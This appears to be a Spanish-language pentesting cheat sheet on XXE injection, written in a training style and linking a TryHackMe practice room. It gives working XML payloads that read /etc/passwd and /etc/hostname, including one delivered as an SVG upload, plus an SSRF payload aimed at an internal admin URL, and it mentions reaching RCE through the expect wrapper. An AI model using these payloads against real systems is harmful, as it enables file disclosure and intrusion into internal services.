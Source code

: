 **NOTA: ES NECESARIO, DE ALGUNA MANERA, CONOCER LA ESTRUCTURA XML QUE ACEPTA LA PAGINA (REVISAR CODIGO FUENTE, JS, ETC.)**

```xml
<?xml version="1.0" encoding="UTF-8"?>  
<stockCheck>
	<productId>381</productId>
</stockCheck>
```

La aplicación no realiza defensas particulares contra ataques XXE, por lo que puede aprovechar la vulnerabilidad XXE para recuperar el archivo `/etc/passwd` enviando la siguiente carga útil XXE:

```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE foo [ 
	<!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>  
<stockCheck>
	<productId>&xxe;</productId>
</stockCheck>
```

Puedes cargar un SVG para recuperar archivos:

```xml
<?XML version="1.0" standalone="yes"?> 
<!DOCTYPE reset [ 
	<!ENTITY xxe SYSTEM "file:///etc/hostname"> 
]> 
<svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"> 
	<text font-size="40" x="0" y="100">&xxe;</text>
</svg>
```

**NOTA**

**Se puede usar todas las formas de LFI para llamar a un archivo mediante XXE.**
**Mediante el wrapper expect se puede derivar a un RCE depende la configuracion.**

**PRACTICAR**

- [https://tryhackme.com/room/mustacchio](https://tryhackme.com/room/mustacchio)

## XXE para realizar ataques SSRF

Al igual que invocamos a un archivo del servidor podemos intentar acceder a una ruta de la pagina del servidor que no tenemos acceso haciendo creer que la peticion tiene como origen 127.0.0.1, es decir localhost o desde el mismo servidor.

Debemos editcar el contenido de la URL:

```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/admin"> ]>  
<stockCheck><productId>&xxe;</productId></stockCheck>
```
